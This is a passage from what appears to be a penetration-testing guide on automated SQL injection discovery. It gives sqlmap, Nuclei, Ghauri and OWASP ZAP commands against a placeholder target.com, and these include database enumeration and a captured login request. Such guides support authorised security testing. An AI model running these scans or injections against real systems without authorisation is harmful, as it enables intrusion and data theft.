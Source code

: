 ### Method 3: SQLMap - From Burp Request

**Steps:**
1. Intercept request in Burp Suite
2. Right-click → **Copy to file** → Save as `request.txt`
3. Run SQLMap:

```bash
sqlmap -r request.txt --batch --level=2 --risk=2
```

**Example request.txt:**
```
POST /login.php HTTP/1.1
Host: target.com
Cookie: session=xyz123
Content-Type: application/x-www-form-urlencoded

username=admin&password=test123
```

### Method 4: Nuclei (Template-Based Scanner)

**SQL Injection Templates:**
```bash
# Single target
nuclei -u https://target.com -t sqli/ -o nuclei_sqli.txt

# Multiple URLs
nuclei -l urls.txt -t sqli/ -c 50 -o results.txt

# All vulnerabilities
nuclei -l urls.txt -t cves/ -t vulnerabilities/ -o all_vulns.txt
```

### Method 5: Ghauri (SQLMap Alternative)

```bash
ghauri -u "https://target.com/page?id=1" --batch --dbs
```

### Method 6: OWASP ZAP Automated Scan

```bash
# Command-line
zap-cli quick-scan -s all https://target.com

# Or use ZAP GUI for active scanning
```

---

## ✋ Phase 5: Manual Testing
